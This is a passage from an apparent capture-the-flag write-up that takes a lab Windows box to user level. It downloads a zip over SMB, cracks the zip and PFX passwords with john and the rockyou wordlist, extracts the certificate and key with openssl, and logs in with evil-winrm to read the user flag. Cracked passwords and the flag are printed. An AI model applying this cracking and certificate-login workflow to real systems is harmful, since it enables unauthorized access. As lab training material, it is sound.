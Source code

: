                    6367231 blocks of size 4096. 1269072 blocks available
    smb: \Dev\> get winrm_backup.zip
    getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (44.0 KiloBytes/sec) (average 44.0 KiloBytes/sec)

The zip archive is protected with a password. I used `zip2john` to extract the password
hash from the archive and feed it to john using the `rockyou` wordlist. The password
was immediatly found: `supremelegacy`.

    :::text
    → john hash -w=~/tools/password_lists/rockyou.txt
    Loaded 1 password hash (PKZIP [32/64])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
    1g 0:00:00:00 DONE (2022-06-11 17:10) 3.225g/s 11204Kp/s 11204Kc/s 11204KC/s suziexx..supergau
    Session completed

I decompressed the archive using the password and got a file named `legacyy_dev_auth.pfx`. The `.pfx` files are
certificate (private an public keys) that can be used for authentication.

The certificate was protected by a password. So I used `pfx2john` and feed it to john (again)
and I got the password in a few seconds (again) still using the `rockyou` wordlist.

    :::text
    → john hash -w=~/tools/password_lists/rockyou.txt
    0g 0:00:00:03 0.79% (ETA: 17:28:34) 0g/s 44418p/s 44418c/s 44418C/s GATORS..14411441
    thuglegacy       (legacyy_dev_auth.pfx)
    1g 0:00:01:30 DONE (2022-06-11 17:23) 0.01101g/s 35599p/s 35599c/s 35599C/s thuglife03282006..thscndsp1
    Session completed

Using openssl I extracted the public private keys from the certificate (I used the same
password for the PEM pass phrase)

    :::text
    openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
    └─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
    Enter Import Password:
    └─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem
    Enter Import Password:
    Enter PEM pass phrase:
    Verifying - Enter PEM pass phrase:

I used `evil-winrm` to connect to the target using the certifiactes and grabbed the user flag.

    :::text
    └─$ evil-winrm -S -c cert.crt -k key.pem -i 10.129.71.83 #thuglegacy

    Evil-WinRM shell v3.3
    Enter PEM pass phrase:
    *Evil-WinRM* PS C:\Users\legacyy\Documents> type ..\Desktop\user.txt
    e7ac7c0f7d766c0f21f4005e1758af50


# Root
